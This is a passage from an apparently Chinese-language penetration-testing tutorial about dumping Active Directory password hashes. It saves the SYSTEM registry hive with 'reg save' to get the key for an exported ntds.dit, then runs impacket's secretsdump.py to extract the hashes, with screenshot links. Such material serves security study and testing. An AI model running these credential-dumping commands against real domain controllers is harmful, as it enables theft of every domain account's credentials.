 [![image.png](assets/1698894155-4d65df1662ac19ba0238f80d593561af.png)](https://storage.tttang.com/media/attachment/2022/09/30/c2700598-1ac6-4a89-85c0-3242d67415a8.png)

导出ntds.dit后，可以键system.hive转储，因为system.hive中存放着ntds.dit的秘钥，如果没有该密钥，将无法查看ntds.dit中的信息：

reg save hklm\\system c:\\system.hive

[![image.png](assets/1698894155-dd7279546074ae4997a92f31763ea2db.png)](https://storage.tttang.com/media/attachment/2022/09/30/888198f2-7554-4520-9a7e-7bb8cfe86ce6.png)

之后使用impacket导出hash

./secretsdump.py -system /root/diskshadow/system.hive -ntds /root/diskshadow/ntds.dit LOCAL

[![image.png](assets/1698894155-f4d3c4dbda9c51eff6e1946defa5258f.png)](https://storage.tttang.com/media/attachment/2022/09/30/afcd9f3c-45c9-4690-ab47-8be44306e9b0.png)

